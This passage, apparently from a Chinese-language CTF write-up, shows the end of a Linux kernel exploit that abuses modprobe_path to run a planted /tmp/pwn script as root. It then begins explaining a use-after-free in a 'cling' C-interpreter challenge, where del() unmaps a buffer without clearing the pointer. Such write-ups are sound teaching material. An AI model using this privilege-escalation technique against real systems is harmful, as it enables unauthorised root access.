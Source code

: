 ```c

    // create /tmp/pwn
    int pwn_fd = open("/tmp/pwn", O_RDWR | O_CREAT);
    write(pwn_fd, CMD, strlen(CMD));
    close(pwn_fd);
    chmod("/tmp/pwn", 0777);

    // create /tmp/QQ
    int garbage_fd = open("/tmp/QQ", O_RDWR | O_CREAT);
    write(garbage_fd, "\xff\xff\xff\xff", 4);
    close(garbage_fd);
        chmod("/tmp/pwn", 0777);

    // trigger modprobe_path
    system("/tmp/QQ");
    return 0;
}
```

P.S. 關於 kernel 當中哪些 struct 可以利用，可以參考 ptr-yudai 的 [文章](https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628)



### cling

cling 為 C interpreter，而餵入的 C source **chal.c** 內提供以下功能

1. 建立 buffer
2. 設定 buffer 的權限
3. 刪除 buffer
4. 定義簡易的 function
5. 執行 function

而漏洞存在於刪除 buffer 的 function：

```c
void del() {
    int ret = munmap(buf, 0x1000);
    if (ret == -1) {
        puts("fail");
        n_elem = 0;
        buf = NULL;
    }
}
```

雖然執行 `munmap()` 來釋放先前在 **create buf** 申請的記憶體區塊，但是並不會將 `buf` 設為 NULL。然而， cling 內部在處理使用者傳入的 function 時：

```c
...
sprintf(func, "unsigned long map_func(unsigned long x) {return %s;}", expr);
gCling->process(func);
...
```
